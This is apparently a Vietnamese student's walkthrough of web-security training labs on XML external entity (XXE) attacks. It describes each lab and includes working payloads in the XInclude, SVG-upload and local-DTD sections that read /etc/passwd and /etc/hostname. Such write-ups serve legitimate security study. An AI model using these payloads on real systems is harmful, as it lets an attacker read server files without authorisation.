

# Web06

# XXE

### **Exploiting XXE using external entities to retrieve files**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`



Do đó ta có thể thực hiện XXE ở phần `productId` để đọc file `/etc/passwd`


---

### **Exploiting XXE to perform SSRF attacks**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`


Do đó ta có thể thực hiện XXE ở phần `productId` để đọc nội dung của URL `http://169.254.169.254/`


---

### **Blind XXE with out-of-band interaction**

Mục tiêu của lab này là tạo kết nối đến server của mình. Gửi payload với URL là url của Burp Collaboration để hoàn thành lab.


---

### **Blind XXE with out-of-band interaction via XML parameter entities**

Ở lab này ta không thực hiện được với `entity references`, do đó ta thử sử dụng `XML parameter entities`


---

### **Exploiting blind XXE to exfiltrate data using a malicious external DTD**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Tuy nhiên lần này server không trả về gì nếu `productId` hoặc `storeId` không hợp lệ. Do đó ta cần thực hiện blind XXE với OOB dtd

File dtd


Gửi request để đọc file dtd, ta nhận được request có nội dung file `/etc/hostname`


---

### **Exploiting blind XXE to retrieve data via error messages**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Khi ta dùng lệnh `SYSTEM` để đọc file dtd không tồn tại, server sẽ gửi lại response với lỗi bao gồm địa chỉ của file dtd.


File dtd


Gửi request để đọc file dtd, ta nhận được request có nội dung file `/etc/passwd`


---

### **Exploiting XInclude to retrieve files**

Chức năng check stock sẽ gửi request có body gồm 2 params `productId` và `storeId`, server sau đó sẽ ghép 2 params đó vào file xml để xử lí tiếp. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`

Gửi payload vào param `productId` để đọc file `/etc/passwd`

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```


---

### **Exploiting XXE via image file upload**

Ở mục comment, ta được phép upload avatar. Avatar sau đó sẽ được xử lí bởi thư viện Apache Batik. Thư viện này có khả năng parse file SVG. Do đó ta sẽ chèn payload để thực hiện XXE trong file avatar này.

Tạo file `avatar.svg` với nội dung

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


Upload file, ta sẽ được nội dung file `/etc/hostname`


---

### **Exploiting XXE to retrieve data by repurposing a local DTD**

Kiểm tra thấy tồn tại file `/usr/share/yelp/dtd/docbookx.dtd` (nếu không tồn tại sẽ trả về lỗi)


Tra ra được file dtd đó tồn tại entity  `ISOamso`. Định nghĩa lại entity đó để thực hiện error-based XEE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
   <!ENTITY % ISOamso '
   <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
   <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
%ISOamso;
]>
<stockCheck>
   <productId>1</productId>
   <storeId>1</storeId>
</stockCheck>
```

Gửi payload, nhận được response có nội dung file `/etc/passwd`

